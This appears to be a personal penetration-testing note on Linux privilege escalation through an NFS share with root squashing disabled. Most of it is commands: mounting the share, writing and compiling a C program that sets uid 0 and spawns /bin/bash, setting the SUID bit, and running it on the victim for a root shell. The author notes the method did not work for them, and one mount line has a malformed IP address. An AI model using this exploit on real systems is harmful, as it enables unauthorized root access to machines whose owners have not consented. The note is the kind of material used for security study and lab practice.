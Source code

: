 -- -
General workflow is to find a directory you can mount that does not squash root. Mount it on your attack box, make a malicious executable as root, give malware SUID bit, then run said executable from the victim to get a shell. 
[[Dark Arts/Privesc/Linux/Enumeration/NFS Root Squashing|Enum]]

#### Exploit
**This vector does not seem to work, I have tried it with different payloads and methods and it doesn't seem like it respects the SUID bit **
###### On Attackbox
```bash
# make a mount point
# can make it wherever, usually I do it in /mnt 
mkdir /tmp/mountme

# mount remote share
# requires sudo to run
# may need to play with the version to get it to mount, when attempting this in practice: 
#vers=3 
# is what worked
mount -o rw,vers=1 <target ip>:<mount dir> /tmp/mountme
mount -o rw,vers=2 192.168.67:/tmp /tmp/mountme

# make malicious c file on remote mount
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c

# compile malware
# ignore warnings like usual
gcc /tmp/mountme/x.c -o /tmp/mountme/x
chmod +s /tmp/mountme/x
```
###### On Victim
```bash
# now just go to the file location and run
cd /tmp 
./x
# should spawn a root shell
```
